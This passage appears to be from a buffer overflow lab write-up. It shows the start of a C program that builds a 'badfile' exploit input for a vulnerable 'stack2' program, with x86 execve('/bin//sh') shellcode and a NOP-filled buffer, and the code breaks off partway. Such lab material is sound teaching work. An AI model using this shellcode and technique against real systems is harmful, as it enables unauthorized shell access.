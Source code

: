 ![Viewing the return address offset for the `stack2` program](figures/ec-stack-frame.png)

Then we can take this information to produce the appropriate `badfile` binary contents.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
    "\x31\xc0"      // xorl    %eax, %eax
    "\x50"          // pushl   %eax
    "\x68""//sh"    // pushl   $0x68732f2f
    "\x68""/bin"    // pushl   $0x6e69622f
    "\x89\xe3"      // movl    %esp, %ebx
    "\x50"          // pushl   %eax
    "\x53"          // pushl   %ebx
    "\x89\xe1"      // movl    %esp, %ecx
    "\x99"          // cdq
    "\xb0\x0b"      // movb    $0x0b, %al
    "\xcd\x80"      // int     $0x80
;

void main()
{
    char buffer[517];
    FILE *badfile;

    // Initialize buffer with 0x90 (NOP instruction)
    memset(&buffer, 0x90, 517);

    printf("len shellcode: %zu\n", sizeof(shellcode));
    printf("buffer: %p\n", (void *)buffer);

```